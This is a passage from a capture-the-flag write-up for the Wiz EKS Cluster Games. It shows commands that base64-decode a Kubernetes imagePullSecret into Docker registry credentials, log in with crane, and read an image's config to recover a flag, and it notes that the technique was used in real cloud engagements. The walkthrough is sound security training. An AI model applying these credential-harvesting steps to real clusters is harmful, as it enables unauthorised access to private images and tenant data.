 ```
$ echo "eyJhdXRocyI6IHsiaW5kZXguZG9ja2VyLmlvL3YxLyI6IHsiYXV0aCI6ICJaV3R6WTJ4MWMzUmxjbWRoYldWek9tUmphM0pmY0dGMFgxbDBibU5XTFZJNE5XMUhOMjAwYkhJME5XbFpVV280Um5WRGJ3PT0ifX19" | base64 -d

{"auths": {"index.docker.io/v1/": {"auth": "ZWtzY2x1c3RlcmdhbWVzOmRja3JfcGF0X1l0bmNWLVI4NW1HN200bHI0NWlZUWo4RnVDbw=="}}}
```

```
$ echo "ZWtzY2x1c3RlcmdhbWVzOmRja3JfcGF0X1l0bmNWLVI4NW1HN200bHI0NWlZUWo4RnVDbw==" | base64 -d

eksclustergames:dckr_pat_YtncV-R85mG7m4lr45iYQj8FuCo
```

We can now use these credentials to authenticate ourself using crane.

```
# crane auth login docker.io -u eksclustergames -p dckr_pat_YtncV-R85mG7m4lr45iYQj8FuCo

2024/01/06 14:08:26 logged in via /home/user/.docker/config.json
```

Now we can check the content of the image, which revealed the flag.
```
# crane config docker.io/eksclustergames/base_ext_image:latest

{"architecture":"amd64","config":{"Env":["PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"],"Cmd":["/bin/sleep","3133337"],"ArgsEscaped":true,"OnBuild":null},"created":"2023-11-01T13:32:18.920734382Z","history":[{"created":"2023-07-18T23:19:33.538571854Z","created_by":"/bin/sh -c #(nop) ADD file:7e9002edaafd4e4579b65c8f0aaabde1aeb7fd3f8d95579f7fd3443cef785fd1 in / "},{"created":"2023-07-18T23:19:33.655005962Z","created_by":"/bin/sh -c #(nop)  CMD [\"sh\"]","empty_layer":true},{"created":"2023-11-01T13:32:18.920734382Z","created_by":"RUN sh -c echo 'wiz_eks_challenge{nothing_can_be_said_to_be_certain_except_death_taxes_and_the_exisitense_of_misconfigured_imagepullsecret}' \u003e /flag.txt # buildkit","comment":"buildkit.dockerfile.v0"},{"created":"2023-11-01T13:32:18.920734382Z","created_by":"CMD [\"/bin/sleep\" \"3133337\"]","comment":"buildkit.dockerfile.v0","empty_layer":true}],"os":"linux","rootfs":{"type":"layers","diff_ids":["sha256:3d24ee258efc3bfe4066a1a9fb83febf6dc0b1548dfe896161533668281c9f4f","sha256:a70cef1cb742e242b33cc21f949af6dc7e59b6ea3ce595c61c179c3be0e5d432"]}}
```

> We successfully used this technique in both of our engagements with Alibaba Cloud and IBM Cloud to obtain internal container images and to prove unauthorized access to cross-tenant data.

# Challenge 3 - Image Inquisition
The given hint:
> A pod's image holds more than just code. Dive deep into its ECR repository, inspect the image layers, and uncover the hidden secret. Remember: You are running inside a compromised EKS pod. For your convenience, the crane utility is already pre-installed on the machine.

The given permissions:
```
{
    "pods": [
        "list",
        "get"
    ]
}
```


[link]: https://www.wiz.io/blog/announcing-the-eks-cluster-games
[finished]: https://eksclustergames.com/finisher/MuQDdDfl